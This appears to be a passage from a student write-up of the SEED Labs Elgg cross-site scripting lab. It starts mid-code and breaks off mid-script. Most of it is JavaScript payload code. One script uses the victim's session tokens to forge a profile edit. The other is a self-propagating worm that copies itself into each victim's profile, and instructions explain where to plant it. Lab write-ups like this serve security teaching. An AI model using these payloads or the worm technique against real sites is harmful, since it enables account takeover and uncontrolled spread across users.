   ```
  var userName="&name="+elgg.session.user.name;
  var guid="&guid="+elgg.session.user.guid;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;
  
  //Construct the content of your url.
  var samyGuid=59;    //FILL IN
  var desc="&description=Sammy Environment for cs xss"+"&accesslevel[description]=2"
  var content=ts + token+userName+guid+desc;     
  var sendurl=http://www.seed-server.com/action/profile/edit;     
  if(elgg.session.user.guid!=samyGuid)
  {

   //Create and send Ajax request to modify profile
  var Ajax=null;
  Ajax=new XMLHttpRequest();
  Ajax.open("POST", sendurl, true);
  Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
  Ajax.send(content);
  }
  }
  </script>

  ```
- The above code should be placed in the "About Me" field of Samy’s profile page, and the Text mode should be enabled before entering the above JavaScript code.

**Task 6: Writing a Self-Propagating XSS Worme** 
- **Objective:** The objective of this task is to implement a worm, which not only changes the victim's profile and added "Samy" as a friend, but also appends a copy of the worm itself to the victim's profile, so that the victim is transformed into an attacker.
- To achieve self-propagation, when the malicious JavaScript modifies the victim’s profile, it should copy itself to the victim’s profile.
- Javascript code to run Self propagating XSS worme:

   ```
  // Attack 3 - Task 6: WSelf-Propagating XSS Worm:
  // DOM Approach:
  <script type="text/javascript" id="worm">
    window.onload = function() {
      var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
      var jsCode = document.getElementById("worm").innerHTML;
      var tailTag = "</" + "script>";
      
      // Put all the pieces together, and apply the URI encoding
      var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
      
      // Set the content of the description field and access level
      var desc = "&description=Samy is my hero" + wormCode;
      desc += "&accesslevel[description]=2";
      
      // Get the name, guid, timestamp, and token.
      var name = "&name=" + elgg.session.user.name;
      var guid = "&guid=" + elgg.session.user.guid;
      var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
      var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
      
      // Set the URL
      var sendurl = "http://www.seed-server.com/action/profile/edit/";
      var content = token + ts + name + desc + guid;
      // Construct and send the Ajax request
  	var attackerguid = 59;
  	if (elgg.session.user.guid != attackerguid) {
   	   // Create and send Ajax request to modify profile
   ```